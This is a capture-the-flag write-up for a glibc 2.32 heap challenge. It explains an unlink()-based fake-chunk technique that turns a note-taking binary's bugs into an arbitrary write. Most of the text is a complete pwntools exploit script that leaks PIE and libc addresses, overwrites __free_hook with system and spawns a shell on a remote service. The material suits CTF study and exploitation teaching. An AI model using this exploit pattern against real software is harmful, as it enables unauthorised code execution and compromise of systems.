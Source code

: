 # the good old time

###### This was a heap challenge with multiple bugs, however I used th unlink() exploit.
#
Lets look at the challenge binary:
```
[*] '/pwd/heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enable
```

As you can see, there is **full** protection. Also the latest libc is used (**2.32**). So this is a classical note-taking program, with options create, edit, show and delete. It has no index, no double free and no lengh protection. With that given I
wanted my exploit to be a bit more special. I used the *new* unlink exploit **(the name of the challenge is related
to the old time, where dlmalloc unlink() exploit was a thing)**. The principle is easy. First we get a leak by doing show(0), because the main address was stored in the heap chunk at index 0. Then we allocated two chunks with size 0x420, edited the first one and filled in `p64(0x0) + p64(0x421) + p64(ptr_chunk1-0x18)`
`+ p64(ptr_chunk1-0x10) + "\x00"*0x400 + p64(0x420) + p64(0x430)`. 
So we created a fake chunk with the fd and bk pointing into bss, where the ptr array is, to pass the check:
`(P->fd->bk != P || P->bk->fd != P) == False`
Now we have to free the second chunk. Then edit the first chunk to: `"\x00"*24 + p64(addr_to_write)`.
Edit the first chunk again to your value and then we have an arb write! Now that you know how I got arb write, my
exploit should be understandable. We had to leak libc, overwrite **__free_hook** and free a chunk which has
`/bin/sh` in it. Here it is:
```python
from pwn import *

def create(idx, sz, data):
  p.sendline("1")
  p.sendline(str(idx))
  p.sendline(str(sz))
  p.sendline(data)

def edit(idx, data):
  p.sendline("2")
  p.sendline(str(idx))
  p.sendline(data)

def show(idx):
  p.sendline("3")
  p.sendline(str(idx))

def delete(idx):
  p.sendline("4")
  p.sendline(str(idx))

def exit():
  p.sendline("5")

#p = process("./heap",env={"LD_PRELOAD" : "./libc.so.6"})
p = remote("35.246.22.179", 49155)

show(0)

p.recvuntil("index: ")
leak = p.recvline()
pie_leak = u64(leak[:6].ljust(8, "\x00"))
pie_base = pie_leak - 0x12a9
puts_got = pie_base + 0x3f88
bss = pie_base + 0x4300
chunks_arr = pie_base + 0x4060

create(1,0x420,"BBBBBBBB")
create(2,0x420,"\x00")
edit(1,p64(0x0)+p64(0x421)+p64(chunks_arr+0x8-0x18)+p64(chunks_arr+0x8-0x10)+"\x00"*0x400+p64(0x420)+p64(0x430))
delete(2)

edit(1,"\x00"*24 + p64(chunks_arr+0x8))
edit(1, p64(puts_got))

show(1)

p.recvuntil("index: ")
p.recvuntil("index: ")
p.recvuntil("index: ")
p.recvuntil("index: ")
p.recvuntil("index: ")
p.recvuntil("index: ")
p.recvuntil("index: ")
leak = p.recv().split("\n")
libc_leak = u64(leak[0].ljust(8, "\x00"))
libc_base = libc_leak - 0x80d90
sh = libc_base + 0x1ae41f
system = libc_base + 0x503c0
free_hook = libc_base + 0x1e6e40

create(3,0x420,"BBBBBBBB")
create(4,0x420,"\x00")
edit(3,p64(0x0)+p64(0x421)+p64(chunks_arr+0x18-0x18)+p64(chunks_arr+0x18-0x10)+"\x00"*0x400+p64(0x420)+p64(0x430))
delete(4)

edit(3,"\x00"*24 + p64(bss))
edit(3, "/bin/sh\x00")

create(5,0x420,"BBBBBBBB")
create(6,0x420,"\x00")
edit(5,p64(0x0)+p64(0x421)+p64(chunks_arr+0x28-0x18)+p64(chunks_arr+0x28-0x10)+"\x00"*0x400+p64(0x420)+p64(0x430))
delete(6)

edit(5,"\x00"*24 + p64(chunks_arr+0x8))
edit(5, p64(bss))

create(7,0x420,"BBBBBBBB")
create(8,0x420,"\x00")
edit(7,p64(0x0)+p64(0x421)+p64(chunks_arr+0x38-0x18)+p64(chunks_arr+0x38-0x10)+"\x00"*0x400+p64(0x420)+p64(0x430))
delete(8)

edit(7,"\x00"*24 + p64(free_hook))
edit(7, p64(system))

delete(1)

p.interactive()

```
###### Cool we get a shell! Fun challenge!